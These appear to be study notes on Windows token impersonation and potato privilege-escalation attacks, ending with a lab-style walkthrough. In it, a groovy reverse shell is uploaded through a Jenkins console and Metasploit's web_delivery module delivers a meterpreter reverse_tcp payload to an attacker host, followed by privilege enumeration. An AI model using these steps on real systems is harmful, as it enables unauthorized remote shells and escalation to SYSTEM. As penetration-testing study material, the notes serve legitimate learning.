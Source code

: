 # Token Impersonation and Potato Attacks

## Token Impersonation 

Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think it as cookies for computers 

**Two Types:** 

- Delegate - Created for logging into a machine or using Remote Desktop 
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script 

![image](images/ti1.png)

![image](images/ti2.png)

![image](images/ti3.png)

**Alright, but what if a Domain Admin token was available?** 

![image](images/ti4.png)

![image](images/ti5.png)

![image](images/ti6.png)

![image](images/ti7.png)

To get to know about the impersonation privileges we can use 

![image](images/ti8.png)

![image](images/ti9.png)

here the ImpersonatePrivilege is enabled which could able to escalate to high privileged users 

Resources for [Impersonation Privileges](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges)

if SeAssignPrimaryToken is enabled it could vulnerable to the potato attacks 

## Potato Attack 

Resources for [Potato Attack](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

The idea behind this vulnerability is simple to describe at a high level:

- Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.

- Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.

- Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.

So if we have service account running with the privileges to impersonate security token it is vulnerable to [juicy-potato attack](https://github.com/ohpe/juicy-potato)

In nmap result we can see there is http protocol running in the port 80 and port 50000. In port 135 RPC is running and In port 445 SMB is running.

In website in the port 50000 we found a directory askjeevs using directory busting and this directory running the jenkins. In jenkins we have script console which run groovy script so we are uploading a [groovy reverse shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

By uploading the groovy reverse shell we got the reverse shell and start the enumeration 

```
whoami  

// SeImpersonatePrivilege is enabled 
whoami /priv 

// save the systeminfo and use windows-exploit-suggester and found it is vulnerable potato attacks 
systeminfo 

// To perform potato attack metasploit framework is easier 
msfconsole 
use exploit/multi/script/web_delivery 
options 
show targets 

// the target contains python,php,powershell,etc and we set it to powershell
set target 2 
set payload windows/meterpreter/reverse_tcp 
set lhost attacker_ip 
set srvhost victim_ip 
run

// we got the script so we are going paste the script generated in the reverse shell that make the shell got in the metasploit framework
session 1 

// now we got the shell in the msfconsole 
getuid
getprivs 
run post/multi/recon/local_exploit_suggester 
```
